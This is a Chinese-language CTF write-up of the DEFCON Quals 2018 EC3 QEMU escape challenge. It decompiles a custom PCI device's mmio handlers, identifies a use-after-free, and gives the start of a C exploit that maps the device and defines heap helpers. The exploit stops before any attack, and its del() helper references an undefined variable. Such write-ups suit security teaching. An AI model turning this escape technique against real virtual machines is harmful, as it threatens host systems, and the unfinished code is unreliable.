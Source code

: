 ```yaml
---
title: DefconQuals-2018-EC3
date: 2020-02-24 17:20:46
tags: PWN
---
```


# 初步分析



qemu逃逸,拿到题目查看run.sh

```
mozhucy@ubuntu:~/Desktop/ctf/defconec3/EC3$ cat run.sh
#!/bin/sh
./qemu-system-x86_64 -initrd ./initramfs-busybox-x86_64.cpio.gz -nographic -kernel ./vmlinuz-4.4.0-119-generic -append "priority=low console=ttyS0" -device ooo
```

发现这个ooo设备,拖入ida分析,居然删了符号.记得在classinit和realize里面会出现一些字符串,里面就有设备的名字,所以搜索一下字符串,看到了ooo

![string](DefconQuals-2018-EC3\string.png)

开了个有符号的,看了一下偏移

```
pwndbg> p/d &(*(PCIDeviceClass *)0).vendor_id
$5 = 232
```

找到了两个id,确认了设备,查看端口,发现地址是从0xfb000000大小为0x1000000的mmio空间

```
/sys/devices/pci0000:00/0000:00:04.0 # cat resource
0x00000000fb000000 0x00000000fbffffff 0x0000000000040200
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
```

```C
unsigned __int64 __fastcall pci_ooo_realize(__int64 a1, __int64 a2)
{
  unsigned __int64 v3; // [rsp+38h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  sub_6E5C20(*(a1 + 120), 1LL);
  if ( !msi_init(a1, 0LL, 1LL, 1LL, 0LL, a2) )
  {
    sub_6E5B0A(a1 + 2680, 1u, sub_6E5F06, a1);
    qemu_mutex_init((a1 + 2520));
    qemu_cond_init((a1 + 2568));
    qemu_thread_create((a1 + 2512), &off_B6339D, sub_6E631A, a1, 0);
    memory_region_init_io(a1 + 2272, a1, off_B63300, a1, "ooo-mmio", 0x1000000LL);
    pci_register_bar(a1, 0LL, 0LL, a1 + 2272);
  }
  return __readfsqword(0x28u) ^ v3;
}
```

off_B63300其实就是MemoryRegionOps结构体,很明显6E613C为mmio_read,6E61F4为mmio_write

恢复完了全部后,发现这个题非常的暴力.

```
void __fastcall ooo_mmio_write(void *a1, __int64 addr, __int64 val, unsigned int size)
{
  unsigned int v4; // eax
  char n[12]; // [rsp+4h] [rbp-3Ch]
  __int64 v6; // [rsp+10h] [rbp-30h]
  void *v7; // [rsp+18h] [rbp-28h]
  __int16 v8; // [rsp+22h] [rbp-1Eh]
  int i; // [rsp+24h] [rbp-1Ch]
  unsigned int v10; // [rsp+28h] [rbp-18h]
  unsigned int v11; // [rsp+2Ch] [rbp-14h]
  unsigned int v12; // [rsp+34h] [rbp-Ch]
  void *v13; // [rsp+38h] [rbp-8h]

  v7 = a1;
  v6 = addr;
  *(_QWORD *)&n[4] = val;
  v13 = a1;
  v10 = ((unsigned int)addr & 0xF00000) >> 20;
  v4 = ((unsigned int)addr & 0xF00000) >> 20;
  switch ( v4 )
  {
    case 1u:
      free(chunk_list[((unsigned int)v6 & 0xF0000) >> 16]);// del
      break;
    case 2u:
      v12 = ((unsigned int)v6 & 0xF0000) >> 16;
      v8 = v6;
      memcpy((char *)chunk_list[v12] + (signed __int16)v6, &n[4], size);// write
      break;
    case 0u:                                    // new
      v11 = ((unsigned int)v6 & 0xF0000) >> 16;
      if ( v11 == 15 )
      {
        for ( i = 0; i <= 14; ++i )
          chunk_list[i] = malloc(8LL * *(_QWORD *)&n[4]);
      }
      else
      {
        chunk_list[v11] = malloc(8LL * *(_QWORD *)&n[4]);
      }
      break;
  }
}
__int64 __fastcall ooo_mmio_read(void *a1, int addr, unsigned int size)
{
  unsigned int index; // [rsp+34h] [rbp-1Ch]
  __int64 dest; // [rsp+38h] [rbp-18h]
  void *v6; // [rsp+40h] [rbp-10h]
  unsigned __int64 v7; // [rsp+48h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  v6 = a1;
  dest = 0x42069LL;
  index = (addr & 0xF0000u) >> 16;
  if ( (addr & 0xF00000u) >> 20 != 15 && chunk_list[index] )
    memcpy(&dest, (char *)chunk_list[index] + (signed __int16)addr, size);// read
  return dest;
}
```



这就是一个套了个qemu的堆题(禁止套娃),不过感觉因为qemu的原因,所以堆排布会非常的混乱,所以可能需要多花点功夫的调试,不过这个漏洞很明显,存在一个UAF,配合ptmalloc打就行了.



# 利用

功能:ooo_mmio_read

addr参数组成:

- addr & 0xf00000处是选择子
- addr & 0xf0000处是要操作的index
- addr&0xffff是要读取的堆块中的位置

调用:mmio_read((case << 20)|(index<<16)|offset)

功能:ooo_mmio_write

addr参数组成:

- addr & 0xf00000处是选择子
- addr & 0xf0000处是要操作的index
- addr&0xffff是要读取的堆块中的位置

调用:mmio_write((case << 20)|(index<<16)|offset,val)

case为0时为new,val为malloc的size

case为1时为del,val没什么用

case为2时为write,val是要写入的值,可以和上面的mmio_read对应addr参数的功能



EXP:

```C
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <fcntl.h>
#include <stdint.h>
#include <assert.h>
#include <string.h>
#include <time.h>

uint64_t base = 0;

int mmio_read(uint64_t addr)
{
	return *((uint32_t *)(base + addr));
}

void mmio_write(uint64_t  addr,uint32_t value)
{
	 *((uint32_t *)(base + addr)) = value;
}

void new(int index,int size)
{
    mmio_write((0 << 20)|(index << 16),size);
}

void del(int index)
{
    mmio_write((1 << 20)|(index << 16),size);
}

void w(int index,int offset,int val)
{
    mmio_write((2 << 20)|(index << 16)|offset,val);
}

uint32_t r(int index,int offset,int val)
{
    return mmio_read((0 << 20)|(index << 16)|offset);
}

int main()
{
	puts("[*]start pwn");
	int fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
	assert(fd != -1);
	
	base = (uint64_t)mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0);
	assert(base != -1);
    
}
```

